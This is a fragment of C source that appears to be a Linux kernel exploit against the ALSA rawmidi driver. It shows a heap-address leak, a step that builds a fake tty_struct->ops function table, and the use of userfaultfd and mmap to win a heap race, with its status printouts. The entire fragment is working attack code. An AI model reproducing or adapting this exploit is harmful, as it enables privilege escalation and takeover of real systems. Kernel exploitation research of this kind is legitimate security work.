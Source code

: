 ```c
    fake_table = next + 0x100;

    printf("[+] msg_msg->m_list.next leak : 0x%lx\n", next - 0x30);
    printf("[+] Fake tty_struct->ops function table: 0x%lx\n", fake_table);

    // hexdump(leak2, 0x2000);

    close(fd2);
    puts("[+] Close rawmidi");

    /* ===================== [ SETP 3 - tty_struct->ops overwrite ] ===================== */

    puts("\n[+] STEP 3 : Fake tty_struct->ops overwrite");

    release_page_fault = false;

    fd3 = open(DRIVER_RAWMIDI, O_RDWR);

    if (fd3 < 0)
    {
        perror("[-] open");
        exit(0);
    }

    puts("[+] Re-opening rawmidi");

    if ((page = mmap((void *)0x5550000, PAGE_SIZE * 2, PROT_READ|PROT_WRITE, MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE, -1, 0)) == MAP_FAILED)
    {
        perror("[-] mmap()");
        exit(0);
    }

    puts("[+] Mapping two pages");

    addr = page;
    memset(addr, 'C', PAGE_SIZE);

    puts("[+] Registering one page userfaultfd"); 

    /* Registering mapped area */
    register_userfaultfd((uint64_t *) ADDRESS_PAGE_FAULT3);

    puts("[+] Raising up the handler for userfaultfd");

    /* Handler for userfault */
    pthread_create(&thread[4], NULL, handler_userfaultfd, (void *) &uffd);

    /* Create one object by size 800 */
    srp.stream = SNDRV_RAWMIDI_STREAM_OUTPUT;
    srp.buffer_size = 800;
    srp.avail_min = 1;
    err = ioctl(fd2, SNDRV_RAWMIDI_IOCTL_PARAMS, &srp);

    puts("[+] Created one object by kmalloc-1024");

    if (err < 0)
    {
        perror("[-] ioctl");
        exit(0);	
    }

    args.addr = addr + PAGE_SIZE - 0x18;
```